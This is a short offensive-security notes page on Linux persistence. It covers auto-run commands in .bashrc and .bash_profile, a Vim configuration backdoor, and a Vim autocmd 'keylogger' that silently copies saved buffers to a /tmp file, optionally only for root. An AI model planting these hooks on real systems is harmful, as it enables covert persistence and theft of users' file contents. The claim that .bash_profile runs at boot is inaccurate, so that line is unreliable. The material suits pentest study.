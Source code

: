 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Config_files
---
```

<span style="font-size: 35px; color:red"><b>Linux Configuration Files</b></span>

You can add bash commands to these file to execute them:
- <span style="color:red">.bash_profile</span>: run when the system boots.
- <span style="color:red">.bashrc</span>: run when a new terminal window is open.

---
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Vim Configuration Backdoor</b></span>

Opening VIM, you can run commands (after the <span style="color:red">:</span>) like <span style="color:red">! touch /tmp/test.txt</span>

Modify <span style="color:red">.vimrc</span> (or create a new one like <span style="color:red">.vimrunscript</span>) adding commands and load them with <span style="color:red">:silent !source ~/.vimrunscript</span> (where <span style="color:red">vimrunscript</span> is a bash script file)
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Vim Keylogger</b></span>
```shell
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```
OR
```shell
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

